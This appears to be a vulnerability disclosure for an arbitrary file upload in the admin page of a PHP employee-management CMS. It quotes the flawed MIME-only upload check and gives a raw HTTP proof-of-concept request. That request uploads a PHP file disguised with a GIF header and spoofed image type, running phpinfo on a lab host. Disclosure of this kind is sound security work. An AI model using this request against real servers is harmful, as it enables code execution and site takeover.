 ### Vulnerability file address

In line 26 of `Admin/add-admin.php`, `$image_name= addslashes($_FILES['avatar']['name']);`, the file extension is not whitelisted. Following up to line 28, `move_uploaded_file($_FILES["avatar"]["tmp_name"], "../uploadImage/Profile/" . $_FILES["avatar"]["name"]);`, the file is uploaded to the `uploadImage/Profile/` directory.

```php
<?php
include('../inc/topbar.php');
if(empty($_SESSION['admin-username']))
    {
      header("Location: login.php");
    }


if(isset($_POST["btncreate"]))
{

$username = $_POST['txtusername'];
$name = $_POST['txtfullname'];
$password = $_POST['txtpassword'];
$phone = $_POST['txtphone'];

$file_type = $_FILES['avatar']['type']; //returns the mimetype
$allowed = array("image/jpg", "image/gif","image/jpeg", "image/webp","image/png");
if(!in_array($file_type, $allowed)) {
$_SESSION['error'] ='Only jpg,jpeg,Webp, gif, and png files are allowed. ';

// exit();

}else{
$image= addslashes(file_get_contents($_FILES['avatar']['tmp_name']));
$image_name= addslashes($_FILES['avatar']['name']);
$image_size= getimagesize($_FILES['avatar']['tmp_name']);
move_uploaded_file($_FILES["avatar"]["tmp_name"],"../uploadImage/Profile/" . $_FILES["avatar"]["name"]);
$location="uploadImage/Profile/" . $_FILES["avatar"]["name"];
```

### POC

```html
POST /CMS/php/employee_akpoly/Admin/add-admin.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------16091284793005290372415211762
Content-Length: 817
Origin: http://10.0.0.20:82
Connection: close
Referer: http://10.0.0.20:82/CMS/php/employee_akpoly/Admin/add-admin.php
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1

-----------------------------16091284793005290372415211762
Content-Disposition: form-data; name="txtusername"


-----------------------------16091284793005290372415211762
Content-Disposition: form-data; name="txtfullname"


-----------------------------16091284793005290372415211762
Content-Disposition: form-data; name="txtpassword"


-----------------------------16091284793005290372415211762
Content-Disposition: form-data; name="txtphone"


-----------------------------16091284793005290372415211762
Content-Disposition: form-data; name="avatar"; filename="2.php"
Content-Type: image/jpeg

GIF89a<?php phpinfo(); ?>

-----------------------------16091284793005290372415211762
Content-Disposition: form-data; name="btncreate"


-----------------------------16091284793005290372415211762--
```

### Attack results pictures

![image-20250128103944792](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501281242813.png)

![image-20250128105930461](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501281242274.png)





